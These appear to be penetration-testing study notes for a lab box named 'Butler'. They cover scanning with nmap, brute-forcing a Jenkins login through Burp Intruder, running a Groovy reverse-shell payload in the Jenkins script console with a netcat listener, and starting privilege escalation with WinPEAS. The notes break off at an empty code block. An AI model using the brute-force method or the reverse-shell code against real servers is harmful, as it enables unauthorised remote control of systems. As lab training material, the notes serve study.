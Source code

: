 ## Butler
VM setup > get IP
Start NMAP
```bash
nmap -T4 -p- -A 192.168.138.138
```
- 8080 - http >> check browser
	- found login page for jenkins
		-can google for jenkins attacks
		-can try directory busting
		-viewing source code for anything
		-can try app default passwords, find from google
	- we need something that gets us authentication
- 7680 - pando-pub?
	- can try connecting via telnet, we don't see this often
- we need to brute force jenkins, we will utilize burp suite
**Brute Force Jenkins**
- start foxyproxy > enable burp (must have it setup)
- launch burp > intercept
- fill and send jenkins user and pass fields
- in burp > send to repeater and intruder
	- in repeater > send request, can see remember-me cookie
	- in intruder > set positions
		- highlight username and password inputer to set parameters >> add each
		- when using multiple parameters we either use pitchfork or cluster bomb attack type
			- pitchfork - good for credential stuffing. 1 to 1
			- cluster bomb - going to try every single user with every single password in the list
		- >> we will use clusterbomb attack since we have no info on user/pass
		- try common users and passwords first for payload options
				- Users: `admin` , `administrator` , `jenkins`
				- Pass: `password` , `jenkins` , `Password` , `Jenkins` , `Password1`
- start attack >> observe for status changes 
	- spotted that jenkins / jenkins is valid login
**Log in with Jenkins / Jenkins**
- we now have ability to run code execution, we need to find where
- poke around in jenkins >> can see groovy script console
	- google jenkins reverse shell, exploiting groovy
		- https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- copy and paste into groovy script console
	- set local host to attacker IP 
-  set up listener in kali with assigned port
```bash
nc -nvlp 8044
```
- run script in jenkins >> check back on listener, shell spawned
```bash
whoami #should be butler\butler
#now need to privesc
systeminfo #check system details
```
We will utilize WINPEAS 
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- download latest obfuscated release >> move into transfer folder (or where u want to host it)
```bash
```